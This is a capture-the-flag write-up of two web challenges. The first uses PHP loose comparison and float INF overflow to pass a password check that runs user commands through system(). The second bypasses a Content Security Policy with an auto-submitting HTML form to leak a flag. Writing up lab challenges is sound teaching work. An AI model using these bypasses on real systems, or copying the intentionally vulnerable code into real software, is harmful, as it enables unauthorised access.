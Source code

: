 # web

## Never gonna tell a lie and type you
> Solved by : thewhiteh4t


- we are given a simple PHP site which contains a single page
- errors are enabled so that helps in debugging
- first the server expects a specific user agent :

```php
if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
```

- we can easily change the `User-Agent` header to `friendlyhuman`
- second the server expects POST request with "data" key

```php
$user_input = json_decode($_POST["data"]); 
```

- to satisfy this we will add the following in headers :

```
Content-Type: application/x-www-form-urlencoded
.
.
.
data={}
```

- next the server expects a specific username, a password in the form of a number and a command :

```php
if($user_input->{'user'} === "admin🤠") {
        if ($user_input->{'password'} == securePassword($user_input->{'password'})  ){
            echo " hail admin what can I get you ". system($user_input->{"command"});
        }
```

- as we can see the password is compared with the result of `securePassword` function and the command is passed to a system call
- and the vulnerability lies in the double comparison : `==`
- now let's look at the password function :

```php
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;
}
```

- function expects input as INT and it should not be less that 10K
- then it uses `strval` to convert input to string which is passed to `md5` which calculates an md5sum which is then passed to `hexdec` which converts to a hexadecimal string and then finally it is passed to `substr` which takes first 7 characters of the result
- the result is multiplied by another large number and the result of that is finally multiplied by our password input
- in PHP when we pass a very large number which is beyond its maximum limit it converts it to `float(INF)` i.e. infinite
- when we pass it the password function the result is also of the form INF and the condition satisfies :


![](https://i.imgur.com/smEhWDz.png)

----------


## todo
> Solved by : thewhiteh4t


- when we input html into admin form input then the following flow is executed in back-end :

```
/admin -> set flag cookie -> visit site -> fill our input in /chal input -> screenshot after delay
```

- flow in `/chal` route :

```
CSP is set -> script.js is added to head tag -> our input is added
```

- flow in `/script.js` route :

```
if the flag cookie matches -> fake flag is replaced with actual flag -> response is sent
```

- so the actual flag is stored inside `script.js`
- CSP :

```
default-src 'none'; script-src 'self' 'unsafe-inline';
```

- cannot load js url like `/script.js` in src because connect-src is not present so default-src fallback is used which is none so request is blocked
- thanks to unsafe-inline we can execute js scripts
- after looking into default-src bypass I found the following on hacktricks :


![](https://i.imgur.com/J1hLfFK.png)

- [Hacktricks | CSP Bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)
- so I tried to load `/script.js` in form action like this :

```html
<form action="/script.js" id="plz">
    <button type="submit"></button>
</form>
<script>document.getElementById("plz").submit();</script>
```

![](https://i.imgur.com/uQD36xS.png)



